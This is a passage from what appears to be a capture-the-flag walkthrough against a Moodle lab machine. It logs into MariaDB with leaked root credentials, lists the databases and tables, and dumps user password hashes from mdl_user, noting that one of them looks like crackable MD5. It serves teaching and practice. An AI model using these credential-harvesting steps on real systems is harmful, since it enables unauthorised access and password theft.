 We can see the system that is running the database(mariadb), and some credentiales for the database(root:Welkom1!)

If we try to login yo mariadb
```bash
mariadb -u root -p
```
And we enter the password 'Welkom1!', we are inside the database!

### Enumerate the database

We can list the databases:
```sql
show databases;
```
Output:
```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
| mysql              |
| performance_schema |
| phpmyadmin         |
+--------------------+
```
moodle is an interesting database worth to explore.

Now we can list the tables:
```sql
show tables;
```
Now we have a lot of tables, but there is one particular table which drag my attention called *mdl_user*

We can describe the table;
```sql
describe mdl_user;
```

Now we have a lot of rows but again there are some rows particulally interesting, username and password.

So we create a query to list all the data about that fields:

```sql
select username, password from mdl_user;
```
We have and output:
```
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+
```
As we can see there some password hashed but there is one from the user Giovannibak which is different and can remember us md5.
